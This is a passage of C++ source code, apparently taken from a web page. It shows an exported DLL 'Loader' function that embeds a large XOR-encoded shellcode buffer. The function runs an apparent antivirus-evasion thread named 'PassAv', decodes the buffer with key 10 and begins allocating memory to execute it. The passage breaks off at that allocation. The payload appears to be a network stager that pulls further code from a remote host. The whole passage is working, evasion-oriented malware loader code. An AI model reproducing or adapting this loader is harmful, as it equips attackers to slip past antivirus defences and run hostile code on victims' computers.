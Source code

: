 ```
            continue;
        `}`
        break;
    `}`
`}`

extern "C" __declspec(dllexport) void Loader(HWND hwnd, HINSTANCE hinst, LPTSTR lpCmdLine, INT nCmdShow) `{`

    DWORD dwthreadId, dwThreadId;
    HANDLE hthread, hThread;
    DWORD dwProtect;
    int code_size = 0;
    unsigned char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a\x83\xef\x3b\xd8\x6e\x81\x58\x3a\x81\x58\x06\x81\x58\x1e\x81\x78\x22\x05\xbd\x40\x2c\x3b\xf5\x3b\xca\xa6\x36\x6b\x76\x08\x26\x2a\xcb\xc5\x07\x0b\xcd\xe8\xfa\x58\x5d\x81\x58\x1a\x81\x48\x36\x0b\xda\x81\x4a\x72\x8f\xca\x7e\x40\x0b\xda\x5a\x81\x42\x12\x81\x52\x2a\x0b\xd9\xe9\x36\x43\x81\x3e\x81\x0b\xdc\x3b\xf5\x3b\xca\xa6\xcb\xc5\x07\x0b\xcd\x32\xea\x7f\xfe\x09\x77\xf2\x31\x77\x2e\x7f\xe8\x52\x81\x52\x2e\x0b\xd9\x6c\x81\x06\x41\x81\x52\x16\x0b\xd9\x81\x0e\x81\x0b\xda\x83\x4e\x2e\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x52\x55\x50\x81\x18\xe1\x8c\x57\x62\x64\x6f\x7e\x0a\x62\x7d\x63\x64\x63\x5e\x62\x46\x7d\x2c\x0d\xf5\xdf\x3b\xf5\x5d\x5d\x5d\x5d\x5d\x62\x30\x5c\x73\xad\xf5\xdf\xe3\x8e\x0a\x0a\x0a\x51\x3b\xc3\x5b\x5b\x60\x09\x5b\x5b\x62\x9a\x15\x0a\x0a\x59\x5a\x62\x5d\x83\x95\xcc\xf5\xdf\xe1\x7a\x51\x3b\xd8\x58\x62\x0a\x08\x6a\x8e\x58\x58\x58\x59\x58\x5a\x62\xe1\x5f\x24\x31\xf5\xdf\x83\xcc\x89\xc9\x5a\x3b\xf5\x5d\x5d\x60\xf5\x59\x5c\x62\x27\x0c\x12\x71\xf5\xdf\x8f\xca\x05\x8e\xc9\x0b\x0a\x0a\x3b\xf5\x8f\xfc\x7e\x0e\x83\xf3\xe1\x03\x62\xa0\xcf\xe8\x57\xf5\xdf\x83\xcb\x62\x4f\x2b\x54\x3b\xf5\xdf\x3b\xf5\x5d\x60\x0d\x5b\x5c\x5a\x62\xbd\x5d\xea\x01\xf5\xdf\xb5\x0a\x25\x0a\x0a\x33\xcd\x7e\xbd\x3b\xf5\xe3\x9b\x0b\x0a\x0a\xe3\xc3\x0b\x0a\x0a\xe2\x81\xf5\xf5\xf5\x25\x39\x7f\x65\x4f\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x0a\x5f\x79\x6f\x78\x27\x4b\x6d\x6f\x64\x7e\x30\x2a\x47\x65\x70\x63\x66\x66\x6b\x25\x3f\x24\x3a\x2a\x22\x69\x65\x67\x7a\x6b\x7e\x63\x68\x66\x6f\x31\x2a\x47\x59\x43\x4f\x2a\x33\x24\x3a\x31\x2a\x5d\x63\x64\x6e\x65\x7d\x79\x2a\x44\x5e\x2a\x3c\x24\x3b\x31\x2a\x5e\x78\x63\x6e\x6f\x64\x7e\x25\x3f\x24\x3a\x31\x2a\x48\x45\x43\x4f\x33\x31\x44\x46\x44\x46\x23\x07\x00\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x0a\x62\xfa\xbf\xa8\x5c\xf5\xdf\x60\x4a\x62\x0a\x1a\x0a\x0a\x62\x0a\x0a\x4a\x0a\x5d\x62\x52\xae\x59\xef\xf5\xdf\x99\xb3\x0a\x0a\x0a\x0a\x0b\xd3\x5b\x59\x83\xed\x5d\x62\x0a\x2a\x0a\x0a\x59\x5c\x62\x18\x9c\x83\xe8\xf5\xdf\x8f\xca\x7e\xcc\x81\x0d\x0b\xc9\x8f\xca\x7f\xef\x52\xc9\xe2\xa3\xf7\xf5\xf5\x3b\x33\x38\x24\x3b\x3c\x32\x24\x3b\x3d\x3a\x24\x3b\x38\x32\x0a\x0a\x0a\x0a\x0a";
    code_size = sizeof(buf);

    hthread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)&amp;PassAv, NULL, NULL, &amp;dwthreadId);
    WaitForSingleObject(hthread, INFINITE);

    if (flag &lt; 1) `{`

        for (int i = 0; i &lt; code_size; i++) `{`
            buf[i] ^= 10;//需要自己改
        `}`

        char * shellcode = (char *)VirtualAlloc(
            NULL,
            code_size,
            MEM_COMMIT,
            PAGE_READWRITE
```